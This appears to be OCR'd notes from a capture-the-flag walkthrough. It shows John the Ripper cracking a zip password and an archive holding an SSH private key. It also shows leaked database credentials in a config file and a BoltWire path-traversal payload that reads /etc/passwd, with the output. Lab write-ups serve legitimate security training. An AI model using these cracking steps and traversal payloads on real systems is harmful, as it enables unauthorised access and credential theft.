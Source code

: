 Proceeding with single, rules:Single

Press 'q' or Ctrl-C to abort, almost any other key for status

Almost done: Processing the remaining buffered candidate passwords, if any.

Proceeding with wordlist:/usr/share/john/password.lst

Proceeding with incremental:ASCII

java101          (save.zip)

1g 0:00:00:06 DONE 3/3 (2022-08-02 05:45) 0.1661g/s 5571Kp/s 5571Kc/s 5571KC/s bbs0048..javona1

Use the "--show" option to display all of the cracked passwords reliably

Session completed.

unzip save.zip

Archive:  save.zip

[save.zip] id_rsa password:

skipping: id_rsa                  incorrect password

skipping: todo.txt                incorrect password

download file config.yaml

database:

driver: sqlite

databasename: bolt

username: bolt

password: I_love_java

signup account in  and add payload index.php?p=action.search&action=../../../../../../../etc/passwd to exploit boltwire ( refer exploitdb )

root:x:0:0:root:/root:/bin/bash

daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

bin:x:2:2:bin:/bin:/usr/sbin/nologin

sys:x:3:3:sys:/dev:/usr/sbin/nologin

sync:x:4:65534:sync:/bin:/bin/sync

games:x:5:60:games:/usr/games:/usr/sbin/nologin

man:x:6:12:man:/var/cache/man:/usr/sbin/nologin

lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin

mail:x:8:8:mail:/var/mail:/usr/sbin/nologin

uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin

proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
